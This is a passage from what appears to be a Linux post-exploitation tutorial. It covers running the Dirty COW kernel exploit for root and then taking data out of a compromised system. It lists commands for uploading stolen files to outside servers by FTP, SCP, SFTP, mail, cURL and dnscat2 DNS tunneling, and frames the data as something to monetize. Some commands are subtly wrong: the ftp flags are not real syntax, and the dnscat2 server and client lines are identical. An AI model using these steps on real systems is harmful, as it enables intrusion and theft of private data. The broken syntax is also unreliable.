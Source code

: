      ```
     # Use a specific kernel exploit tool (e.g., Dirty COW)
     gcc -pthread dirty.c -o dirty -lcrypt
     sudo ./dirty
     ```

It should be noted that these commands are useful for making use of the thousands of useful repositories that one can find throughout the internet.

## Data exfiltration

Data exfiltration in post-exploitation refers to the unauthorized extraction or transfer of sensitive or valuable data from a compromised Linux system. It involves the process of stealing or copying data from the compromised system and transferring it to an external location or unauthorized recipient.

The objective of data exfiltration is often to retrieve valuable information, such as confidential documents, intellectual property, user credentials, financial data, or any other sensitive data that can be monetized or used for malicious purposes.

Various techniques can be employed for data exfiltration in Linux systems, including:

1. **File transfer protocols:**

- Using FTP:
  - Upload a file to an FTP server: `ftp -p <ftp_server> -u <username> -w <password> -put <local_file> <remote_file>`
  - Download a file from an FTP server: `ftp -p <ftp_server> -u <username> -w <password> -get <remote_file> <local_file>`

- Using SCP:
  - Copy a file to a remote server via SCP: `scp <local_file> <username>@<remote_server>:<remote_path>`
  - Copy a file from a remote server via SCP: `scp <username>@<remote_server>:<remote_file> <local_path>`

- Using SFTP:
  - Upload a file to an SFTP server: `sftp <username>@<sftp_server>:/<remote_path>`
  - Download a file from an SFTP server: `sftp <username>@<sftp_server>:/<remote_file> <local_path>`

2. **Email or messaging services:**

- Sending an email with an attachment using the mail command:
  - `echo "Message body" | mail -s "Subject" -a <attachment_file> <recipient_email>`

3. **Web-based methods:**

- Uploading a file to a web server using cURL:
  - `curl -F "file=@<local_file>" <upload_url>`

4. **Covert channels:**

- DNS tunneling with Dnscat2:
  - Set up a DNS tunneling server: `dnscat2 --dns <dns_server> --secret <secret>`
  - Connect to the DNS tunneling server: `dnscat2 --dns <dns_server> --secret <secret>`
